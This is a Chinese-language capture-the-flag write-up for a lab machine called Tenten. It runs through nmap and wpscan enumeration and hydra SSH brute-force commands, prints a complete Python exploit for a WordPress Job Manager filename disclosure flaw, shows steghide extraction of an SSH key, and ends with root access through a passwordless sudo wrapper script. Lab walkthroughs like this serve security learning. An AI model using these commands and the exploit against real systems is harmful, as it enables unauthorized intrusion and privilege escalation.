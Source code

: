 ```yaml
---
title: Tenten（sudo -l）
categories:
- CTF
tags:
- CTF
---
```

10.10.10.10

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
command: `wpscan --url 10.10.10.10 --enumerate`

useful info: 
```
Apache/2.4.18 (Ubuntu)
WordPress version 4.7.3
valid user: takis
http://10.10.10.10/wp-login.php
```
- trying1
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/1.PNG)
WordPress 2.3-4.8.3 - Host Header Injection in Password Reset

这是第二次遇到低版本wordpress，并验证主机头注入了，但第一次是邮件发送插件未安装，第二次直接500服务器错误。无语。

- trying2
takis，以该用户名，burp intruder尝试弱密码。

- trying3
openssh验证有效的用户，尝试弱密码
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/2.PNG)

hydra -l takis -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh

hydra -l takis -P /usr/share/wordlists/rockyou.txt -I 10.10.10.10 ssh -t 4

结果：
 [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4

- trying4：exp查找
search type:exploit wordpress cve:2016

--- 
像这种cms，又没检查出弱密码，又没有检查出可用exp，菜的不行==

## writeup
当时我用wpscan，检查过了插件job manager。由于只有xss漏洞，所以没有在意。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/4.PNG)

32 vulnerabilities identified:     --》 wpscan扫描结果有32个漏洞，再加上youtube上看到一些0day的exp演示视频，高大上的不行。成功把我这只菜鸟给绕糊涂了。
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/3.PNG)

https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/

## exp
```
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2016,2018):  
    for i in range(1,13):
        for extension in {'jpg','jpeg','png'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/5.PNG)

```
wget 10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg

steghide extract -sf HackerAccessGranted.jpg

superpassword（通过hydra可得到）

chmod 400 id_rsa
ssh -i id_rsa takis@10.10.10.10

成功连接：
sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin

---
file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable

---
cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```
对bash script变量不是很熟悉，于是在本地写一个，运行试一下。

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/6.PNG)

```
$1 代表给脚本传递的第一个参数

$2 传递的第二个参数，以此类推

sudo /bin/fuckin su
因为/bin/fuckin不需要输入密码，并且以root运行，所以运行了su，获得root用户。

## 总结
要点是扫描到HackerAccessGranted的目录，通过cv文件名泄露漏洞，通过隐写术获取到id_rsa以及隐藏的密码

ssh登陆后，sudo -l利用权限错误，执行root权限即可。
```
